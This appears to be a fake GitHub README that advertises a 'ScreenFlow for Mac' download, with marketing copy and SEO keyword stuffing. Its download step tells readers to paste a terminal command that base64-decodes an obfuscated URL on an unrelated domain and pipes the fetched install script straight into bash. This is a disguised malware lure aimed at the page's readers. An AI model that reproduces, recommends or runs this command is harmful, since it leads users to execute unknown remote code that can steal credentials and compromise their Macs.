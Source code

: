 # ScreenFlow for Mac Download - Professional Screen Recording

![ScreenFlow Screenshot](https://www.telestream.net/screenflow/images/ScreenFlow-Laptop.png)

---

### 🔽 Download ScreenFlow for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is ScreenFlow for Mac?

ScreenFlow is the ultimate screen recording and video editing suite designed exclusively for macOS. This powerful software transforms your Mac into a professional content creation studio, allowing you to capture stunning screen recordings with crystal-clear audio and edit them with Hollywood-grade tools. Perfect for educators, marketers, developers, and creators who demand professional results without complexity.

Unlike basic screen recorders, ScreenFlow features multi-layer editing, animated callouts, and seamless transitions. It supports ultra-high-definition recording (up to 4K) and offers optimized performance for both Intel and Apple Silicon Macs. Whether you're creating software tutorials, online courses, or product demos, ScreenFlow provides everything you need to produce engaging, professional-quality videos.

With its intuitive drag-and-drop interface, real-time effects preview, and direct publishing to YouTube/Vimeo, ScreenFlow streamlines your entire workflow from recording to sharing. The software also includes premium assets like royalty-free music, animated backgrounds, and professional title templates to elevate your content instantly.

![ScreenFlow Editing Interface](https://videoguys.com/cdn/shop/products/screenflow-interface_2_1_1_1_1800x1800.jpg)

---

## Key Features & Benefits

- 🎥 Professional screen recording with system/mic audio  
- ✂️ Advanced multi-track video editing suite  
- 🖥 4K/UHD recording & Apple Silicon optimization  
- 🎨 Annotations, callouts, and motion graphics  
- ⚡️ Instant publishing to social platforms  
- 🎞 Perfect for tutorials, demos, and presentations  

Whether you're recording coding sessions, creating online courses, or producing marketing videos, ScreenFlow delivers studio-quality results with unmatched ease.

---

## 🔍 Keywords

ScreenFlow for Mac, ScreenFlow Mac Download, ScreenFlow for Mac Download, ScreenFlow Mac, ScreenFlow Download Mac, ScreenFlow Download for Mac, screenflow full version, Mac Download ScreenFlow, Download Mac ScreenFlow, Download ScreenFlow Mac, Download ScreenFlow for Mac
